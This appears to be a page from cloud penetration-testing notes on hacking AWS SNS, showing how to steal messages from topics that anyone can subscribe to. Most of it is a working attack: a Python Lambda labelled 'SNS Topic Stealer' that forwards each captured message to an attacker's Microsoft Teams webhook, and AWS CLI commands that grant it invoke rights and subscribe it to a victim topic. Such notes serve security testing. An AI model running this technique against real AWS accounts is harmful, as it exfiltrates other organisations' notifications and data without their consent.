 # Hacking AWS SNS
## Exploiting open SNS topics
If SNS topics are open to be subscribed to, it's fairly easy to connect that via a webhook into a chat program to capture.
* Create a [lambda function](https://aws.amazon.com/premiumsupport/knowledge-center/sns-lambda-webhooks-chime-slack-teams/) that accepts SNS events and forwards them to your chat webhook of choice.

This example uses Microsoft Teams, sending each SNS message in a [pretty card](https://docs.microsoft.com/en-us/microsoftteams/platform/webhooks-and-connectors/how-to/connectors-using?tabs=cURL#send-adaptive-cards-using-an-incoming-webhook) format
```
import urllib3 
import json
http = urllib3.PoolManager()
webhook_url = ""

def lambda_handler(event, context): 
    for sns_message in event['Records']:
        # Chat message in Microsoft Teams adaptive card webhook format
        chat_message = {
          "type": "message",
          "attachments": [
            {
              "contentType": "application/vnd.microsoft.card.adaptive",
              "contentUrl": None,
              "content": {
                "$schema": "http://adaptivecards.io/schemas/adaptive-card.json",
                "type": "AdaptiveCard",
                "version": "1.0",
                "body": [
                  {
                    "type": "Container",
                    "items": [
                      {
                        "type": "TextBlock",
                        "text": "SNS Topic Stealer",
                        "weight": "bolder",
                        "size": "medium"
                      },
                      {
                        "type": "FactSet",
                        "facts": [
                          {
                            "title": "MessageId:",
                            "value": sns_message['Sns']['MessageId']
                          },
                          {
                            "title": "TopicArn:",
                            "value": sns_message['Sns']['TopicArn']
                          },
                          {
                            "title": "Subject:",
                            "value": sns_message['Sns']['Subject']
                          },
                          {
                            "title": "Message:",
                            "value": sns_message['Sns']['Message']
                          }
                        ]
                      }
                    ]
                  }
                ]
              }
            }
          ]
        }
        encoded_msg = json.dumps(chat_message).encode('utf-8')
        resp = http.request('POST', webhook_url, body=encoded_msg)
        print({
            "message": event['Records'][0]['Sns']['Message'], 
            "status_code": resp.status, 
            "response": resp.data
        })
```

* Edit the webhook url, save the lambda, and test with a SNS Notification test message
* Give the target account permissions to invoke the lambda via SNS

```
aws lambda add-permission --function-name arn:aws:lambda:us-east-1:123456789012:my-lambda-stealer \
--source-account 123456789012 \
--statement-id sns-to-lambda-1 --action "lambda:InvokeFunction" \
--principal sns.amazonaws.com
```

* Subscribe to the topic using AWS CLI, changing the topic and lambda ARNs

```
aws sns subscribe \
--topic-arn arn:aws:sns:us-east-1:123456789012:topic-to-steal \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:321456789666:my-lambda-stealer
```

* Test to see if messages arrive
